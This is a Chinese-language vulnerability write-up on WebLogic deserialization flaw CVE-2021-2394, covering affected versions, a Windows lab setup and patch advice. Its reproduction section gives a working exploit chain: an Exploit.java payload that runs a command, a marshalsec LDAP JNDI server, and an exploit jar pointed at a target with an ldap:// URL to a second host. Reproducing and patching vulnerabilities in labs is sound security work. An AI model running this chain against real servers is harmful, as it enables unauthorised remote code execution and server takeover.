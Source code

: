 # Weblogic 二次反序列化漏洞 CVE-2021-2394

## 漏洞描述

Oracle官方发布了2021年7月份安全更新通告，通告中披露了WebLogic组件存在高危漏洞，攻击者可以在未授权的情况下通过IIOP、T3协议对存在漏洞的WebLogic Server组件进行攻击。成功利用该漏洞的攻击者可以接管WebLogic Server。

这是一个二次反序列化漏洞，是CVE-2020-14756和CVE-2020-14825的调用链相结合组成一条新的调用链来绕过weblogic黑名单列表。

## 漏洞影响

```
Oracle WebLogic Server 10.3.6.0.0
Oracle WebLogic Server 12.1.3.0.0
Oracle WebLogic Server 12.2.1.3.0
Oracle WebLogic Server 12.2.1.4.0
Oracle WebLogic Server 14.1.1.0.0
```

## 环境搭建

系统环境：window10 系统

weblogic 版本：12.2.1.3，官网下载

![image-20230328155039160](images/image-20230328155039160.png)

在当前目录启动，启动后访问：

![image-20230328155131145](images/image-20230328155131145.png)

## 漏洞复现

下载 marshalsec 利用 marshalsec 开启 JNDI 服务：

```
https://github.com/mbechler/marshalsec # 需要自己编译
mvn clean package –DskipTests

https://github.com/RandomRobbieBF/marshalsec-jar # 可以直接使用
```

创建 Exploit.java，通过 javac 编译得到 Exploit.class：

```
public class Exploit {

    static {
        System.err.println("Pwned");
        try {
            String cmds = "calc";
            Runtime.getRuntime().exec(cmds);
        } catch ( Exception e ) {
            e.printStackTrace();
        }
    }
}
```

在同目录下使用 python 开启一个 http 服务，并使用 marshalsec 开启 JNDI 服务：

```
python -m http.server 8000
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8000/#Exploit" 8087
```

使用exp进行复现：

- https://github.com/lz2y/CVE-2021-2394/releases/tag/2.0

```
java -jar CVE_2021_2394.jar 192.168.31.3 7001 ldap://192.168.3.35:8087/Exploit
```

![image-20230328155325277](images/image-20230328155325277.png)

## 修复方式

当前官方已发布受影响版本的对应补丁，建议受影响的用户及时更新官方的安全补丁。链接如下：

- https://www.oracle.com/security-alerts/cpuapr2021.html